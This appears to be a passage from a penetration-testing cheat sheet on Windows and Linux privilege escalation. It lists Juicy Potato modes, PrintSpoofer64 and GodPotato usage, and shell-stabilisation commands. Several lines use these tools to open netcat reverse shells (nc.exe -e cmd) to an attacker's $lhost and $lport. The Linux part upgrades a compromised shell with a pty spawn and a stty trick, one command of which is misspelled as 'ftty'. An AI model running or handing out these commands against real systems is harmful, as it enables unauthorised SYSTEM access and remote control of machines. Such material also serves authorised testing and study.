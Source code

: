 [list of CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

**Process creation mode (-t)**
depending on the impersonated user's privileges you can choose from:

- CreateProcessWithToken (needs `SeImpersonate`)
- CreateProcessAsUser (needs `SeAssignPrimaryToken`)
- both

##### [PrintSpoofer64](https://github.com/itm4n/PrintSpoofer)
From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.
```
.\PrintSpoofer64.exe -c "C:\path\to\nc.exe $lhost $lport -e cmd"
```

```
.\PrintSpoofer64.exe -i -c powershell.exe
```

Releases [link](https://github.com/itm4n/PrintSpoofer/releases).

##### [GodPotato](https://github.com/BeichenDream/GodPotato)
Affected version: Windows Server 2012 - Windows Server 2022 and Windows 8 - Windows 11

Reverse shell:
```
.\GodPotato.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe $lhost $lport"
```

#### SeLoadDriverPrivilege:

[Link here!](https://github.com/k4sth4/SeLoadDriverPrivilege)

## Linux

Credits:
[Ansible Playbook Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
## Stabilize shell:

After getting a shell, try to spawn a terminal with this command:
```
python -c "import pty;pty.spawn('/bin/bash')"
```

Enter CTRL+z and then type this command:
```
ftty raw -echo; fg
```

Set the terminal emulator to xterm:
```
export TERM=xterm
```
